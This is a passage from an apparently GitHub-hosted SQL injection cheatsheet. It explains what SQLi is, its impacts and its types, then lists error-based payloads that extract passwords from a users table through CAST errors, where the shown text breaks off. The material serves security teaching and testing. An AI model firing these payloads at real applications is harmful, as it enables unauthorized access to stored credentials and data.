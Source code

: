 # 🐱‍💻 SQL Injection (SQLi) Cheatsheet

⚠️ **Alert:** This cheatsheet **does not cover the syntax for all SQL languages**. You can understand the logic here and apply it based on the specific SQL language you’re working with. For detailed syntax, visit the excellent [PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).  

---

## 📚 Table of Contents

1. [What is SQL Injection?](#what-is-sql-injection)
2. [Impact of SQL Injection Attacks](#impact-of-sql-injection-attacks)
3. [Types of SQL Injection](#types-of-sql-injection)
   - [In-Band SQL Injection](#1-in-band-sql-injection)
     - [Error-Based SQLi](#error-based-sql-injection)
     - [Union-Based SQLi](#union-based-sql-injection)
   - [Blind (Inferential) SQL Injection](#2-blind-inferential-sql-injection)
     - [Boolean-Based SQLi](#boolean-based-sql-injection)
     - [Time-Based SQLi](#time-based-sql-injection)
   - [Out-of-Band SQL Injection](#3-out-of-band-sql-injection)
4. [Advanced Blind SQLi Payloads](#advanced-blind-sqli-payloads)

---

## 📝 What is SQL Injection?

SQL Injection (SQLi) is a web security vulnerability where an attacker manipulates SQL queries made by an application to its database. Exploiting SQLi can lead to unauthorized access, data manipulation, and even remote code execution.

---

## 🚨 Impact of SQL Injection Attacks

SQLi attacks can severely affect:

1. **Confidentiality**: Unauthorized access to sensitive data (like usernames, passwords, and credit card details).
2. **Integrity**: Altering or deleting data.
3. **Availability**: Shutting down services or making data unavailable.
4. **Remote Code Execution**: In advanced cases, executing commands on the server.

---

## 💥 Types of SQL Injection

---

### 1️⃣ In-Band SQL Injection

In-band SQLi is the easiest and most common form of SQL injection, where the attacker uses the same communication channel to both launch the attack and retrieve results.

---

#### 🔹 Error-Based SQL Injection

Forces the database to generate errors, revealing sensitive information through error messages.

**Payloads:**
```sql
' AND CAST((SELECT 1) AS int)--
' AND CAST((SELECT password FROM users LIMIT 1) AS bool)--
' AND CAST((SELECT password FROM users LIMIT 1 OFFSET 0) AS bool)--
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--



